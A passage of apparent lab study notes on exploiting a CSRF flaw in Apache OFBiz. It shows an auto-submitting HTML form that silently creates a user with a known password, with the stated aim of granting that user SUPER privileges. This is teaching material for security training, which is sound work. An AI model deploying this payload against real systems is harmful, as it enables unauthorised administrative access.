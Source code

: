 <figure><img src="../../.gitbook/assets/offsec_ofbiz_3.png" alt=""><figcaption><p>Figure 7: Inspecting the request that elevates user privileges.</p></figcaption></figure>

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

At a high level, we want to copy the application's HTML forms into pages hosted on our server. We will fill the forms with our own data and make them submit on page load, so the victim must only open the page. In this case, our goal is to create a new user and then assign them the `SUPER` privilege. We will start by creating the basic structure of a form element (`ofbiz.html`) under `/var/www/html` so we can server it using Apache.

{% code title="ofbiz.html" overflow="wrap" %}
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>
```
{% endcode %}

Next, we need to add the `input` elements. The `POST` request that our page generates needs to match the baseline request from the app. We need to add input elements, one for each key-value pair in the original request, inside the form element.

{% code title="ofbiz.html" overflow="wrap" %}
```html
<html>
  <body onload="document.forms['csrf'].submit()">
    <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
      <input type="hidden" name="enabled">
      <input type="hidden" name="partyId">
      <input type="hidden" name="userLoginId" value="csrftest">
      <input type="hidden" name="currentPassword" value="password">
      <input type="hidden" name="currentPasswordVerify" value="password">
      <input type="hidden" name="passwordHint">
      <input type="hidden" name="requirePasswordChange" value="N">
      <input type="hidden" name="externalAuthId">
      <input type="hidden" name="securityQuestion">
      <input type="hidden" name="securityAnswer">
    </form>
  </body>
</html>
```
{% endcode %}
